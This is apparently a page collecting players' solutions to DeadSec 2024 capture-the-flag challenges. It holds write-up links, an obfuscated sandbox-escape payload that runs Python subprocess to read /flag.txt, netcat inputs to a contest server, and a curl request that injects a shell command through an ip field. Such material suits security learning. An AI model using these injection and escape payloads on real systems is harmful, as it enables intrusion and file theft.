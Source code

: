 

**By @sihyeokpark**
- <https://blog.exon.kr/posts/ctf/2024/deadsec/>

**By @duty1g**
- Solve payload for `RetroCalculator`

```plaintext
Object.constructor.constructor('\\x70\\x79\\x69\\x6d\\x70\\x6f\\x72\\x74\\x20\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x3b\\x20\\x72\\x65\\x74\\x75\\x72\\x6e\\x20\\x73\\x75\\x62\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\\x3b')().check_output(['cat','/flag.txt'])
```
OR

```plaintext
let ppen = Object.getOwnPropertyNames({}).__getattribute__('__getattribute__')('__class__').__base__.__subclasses__()[351]\nppen('cat /flag.txt',-1, null, -1, -1, -1, null, null, true).communicate()[0]
```

**By @stelin41**
- Solve for `Flag Injection`

```bash
#dead_test_flag_which_is_exactly_this_long_
#XXXXXXXXXXXXXffffffffffffffffffff
echo "0\n13\nffffffffffffffffffff\ndaaaaaaaaaaaaffffffffffffffffffff" | nc 34.121.62.108 32564
# dead_ivswjlvaffffffffffffffffffff
echo "10\n23\nffffffffffffffffffff\nlva__________ffffffffffffffffffff" | nc 34.121.62.108 32564
# lvahxmifksxjgffffffffffffffffffff
echo "20\n33\nffffffffffffffffffff\nxjg__________ffffffffffffffffffff" | nc 34.121.62.108 32564
# xjgifrzfhljkdffffffffffffffffffff
echo "29\n42\nffffffffffffffffffff\nljkd__________ffffffffffffffffffff" | nc 34.121.62.108 32564
# ljkdprcaubac_ffffffffffffffffffff


# dead_ivswjlvahxmifksxjgifrzfhljkdprcaubac_
# DEAD{ivswjlvahxmifksxjgifrzfhljkdprcaubac}
```

**By @hex01e**
- Solve for `Bing2`

```bash
curl https://f0e12882e297eee28e7649e4.deadsec.quest//bing.php -X POST -d 'Submit&ip=;head    /f?ag.txt'
```


**By @kumail_93722_98341**
- [Solve for `Financial Supporter 2`](https://strangek.vercel.app/blog/writeups/deadsec/osint/finance)


**By @_onsra_**
- <https://docs.google.com/document/d/1eFzXamzW74YQ4N4Qo2poNSGhXeDzacvtTaG1LpJdtcs/edit?usp=sharing>

